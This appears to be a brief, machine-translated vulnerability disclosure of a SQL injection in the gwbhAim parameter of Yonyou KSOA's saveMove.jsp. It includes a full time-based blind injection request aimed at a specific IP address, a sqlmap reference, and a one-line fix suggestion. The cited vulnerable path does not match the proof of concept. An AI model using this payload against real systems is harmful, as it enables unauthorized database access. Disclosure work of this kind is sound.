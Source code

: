 YonYou(UF) -space-time KSOA-saveMove.jsp file gwbhAim parameter has a -SQL injection vulnerability

\1. Vulnerability description

YonYou(UF) -space-time KSOA-saveMove.jsp file gwbhAim parameter has a -SQL injection vulnerability. An attacker can exploit this vulnerability to obtain database information.

\2. Vulnerability impact

Yonyou space-time enterprise information integration platform

Third, vulnerability location/hr_dept/update_dept.jsp?bmbh

## Third, vulnerability location

**Recurrence one**

Ip：http://218.207.206.172:5080

 

（2）Construct the poc, as follows, and successfully verify that there is an information leakage vulnerability

POC:

GET /hr_position/saveMove.jsp?gwbhAim=211';WAITFOR+DELAY+'0:0:2'-- HTTP/1.1

Host: 218.207.206.172:5080

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://218.207.206.172:5080/login.jsp

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Cookie: JSESSIONID=14E9CA8A4F3FB5919CADB82134FEBFE7

Connection: close

 

（3）Successful screenshot
<img width="1348" alt="cve1" src="https://github.com/l8l1/killl.github.io/assets/69406494/8a818995-120e-4777-b41b-9b5eb442639d">




Sqlmap SCREENSHOTS：
<img width="1423" alt="cve2" src="https://github.com/l8l1/killl.github.io/assets/69406494/f7b6fab3-9fc6-4ead-b2b8-62a966092ad4">





**Repair suggestions:**

a) Filter parameters to prevent sql injection.

 
